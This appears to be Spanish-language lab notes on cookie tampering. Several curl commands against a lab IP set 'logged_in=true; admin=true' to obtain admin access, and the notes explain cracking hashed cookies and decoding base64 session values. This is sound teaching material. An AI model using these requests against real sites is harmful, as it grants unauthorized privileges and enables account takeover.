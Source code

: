 La mayoria de las cookies van en texto plano.

![image](https://github.com/user-attachments/assets/d3d80c80-370c-49d5-8df4-99a587de8311)

Nosotros usamos una cookie (logged_in) que da el control del usuario que esta loggeado en este momento o no o un admin que tenga dichos permisos. Usando la logica, podemos cambiar el contenido de las cookies para nuestros privilegios

```
curl http://10.10.225.254/cookie-test
```

Ahora mandaremos otra consulta de la (logged_IN) para ponerlo en true y la admin cookie en falso

```
curl -H "Cookie: logged_in=true; admin=false" http://10.10.225.254/cookie-test
```
Recibimos el mensaje "Logged In As A User"

```
curl -H "Cookie: logged_in=true; admin=true" http://10.10.225.254/cookie-test
```

Nos devuelve el mensaje "Logged In As An Admin" 

Aveces la cookie esta en hash 


![image](https://github.com/user-attachments/assets/ed4db9e6-86d7-4b45-b379-54467c653c6d)

[CrackStation](https://crackstation.net)

El codificar es similar que el hash esto se hace para hacer bypass, comunes con base32, base64, etc

Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/

Esta string esta en base64 codificada con el valor ("id":1,"admin":false)


